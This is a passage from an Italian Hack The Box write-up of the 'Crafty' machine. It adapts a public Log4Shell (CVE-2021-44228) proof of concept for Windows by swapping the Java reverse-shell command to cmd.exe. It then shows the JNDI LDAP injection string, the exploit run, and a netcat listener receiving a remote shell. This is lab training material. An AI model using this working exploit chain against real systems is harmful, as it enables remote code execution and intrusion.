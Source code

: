 abbiamo la richiesta ma non riceviamo nessuna shell indietro.

### Correzione PoC

Andando a vedere `poc.py` possiamo notare che nella funzione `generate_payload` 
abbiamo `String cmd="/bin/sh";`

```bash
..<snip>..
def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
..<snip>..
```

ora in ambiente windows non funziona dobbiamo sostituirlo con `String cmd="cmd.exe";`

Siamo pronti ad eseguire di nuovo  il nostro exploit corretto.

```shell-session
┌──(root㉿kali)-[/home/kali/htb/crafty/log4j-shell-poc]
└─# python3 poc.py --userip 10.10.14.15 --webport 8000 --lport 443

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://10.10.14.15:1389/a}

[+] Starting Webserver on port 8000 http://0.0.0.0:8000
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to http://10.10.14.15:8000/Exploit.class
10.10.11.249 - - [01/Jul/2024 23:06:07] "GET /Exploit.class HTTP/1.1" 200 -
```

```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.11.249] 49681
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\users\svc_minecraft\server>whoami
whoami
crafty\svc_minecraft

c:\users\svc_minecraft\server>
```
